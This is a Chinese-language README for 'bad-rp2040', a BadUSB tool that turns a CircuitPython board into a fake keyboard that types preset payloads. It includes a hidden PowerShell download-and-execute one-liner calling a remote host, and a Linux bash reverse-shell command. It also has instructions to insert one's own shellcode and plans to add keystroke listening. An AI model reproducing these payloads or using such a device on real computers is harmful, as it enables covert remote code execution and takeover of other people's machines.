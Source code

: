 # bad-rp2040

<p align="center">
    <img src="https://s2.loli.net/2024/12/05/EVOFhpTyHABv9Na.webp" alt="logo.webp" width="300" />
</p>



## 使用教程

虽然名字叫做bad-rp2040，但理论上它可以支持其他能够使用CircuitPython的板子。

* 第一步
  
  按住BOOT按键进入烧入模式从[这里](https://circuitpython.org/board/raspberry_pi_pico/)找到合适的CircuitPython固件烧入

* 第二步
  
  烧入完成后再下载项目文件，修改payload.txt为你想要的内容，之后写入磁盘模式的开发板

* 第三步
  
  重新插拔开发板，不出意外开发板会自动模拟按键输入编写好的payload


### payload语法

可用案例：

#### windows

```badusb
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```

#### linux

```badusb
set Time 1
LINUX_OPENSHELL
LINUX_RESHELL 127.0.0.1 4444
```

将最后的echo内容替换为你的shellcode即可

内置了快捷使用的模块

| 命令     | 作用                       |
-----------|---------------------------|
| POWERSHELL | 快速拉起powershell     |
| TOGGLE_INPUT | 快速切换输入法     |
| LINUX_OPENSHELL | 快速拉起linux shell   |
| LINUX_RESHELL | 使用bash -i反弹shell模板   |
| ECHO | 输出字符串     |

根据需求调用即可，echo语句用于输出字符串

### 语法表

| 命令     | 作用                       |
-----------|---------------------------|
| set Time | 设置命令隔时间 不建议太快    |

#### 注意

如自行编写payload.txt，请注意windows的自动大小写问题

### 后续开发计划

短期
* 完成目前列出的所有模组
* 完成计划的语法

长期
* 是否可以做到监听键盘输入

![run](https://s2.loli.net/2024/12/04/d4NjluG9nEImwUB.png)
![shell](https://s2.loli.net/2024/12/04/oTHgaxBFnsqUGNM.png)
![linux](https://s2.loli.net/2024/12/05/s46Hu5qOYEkiKX3.png)
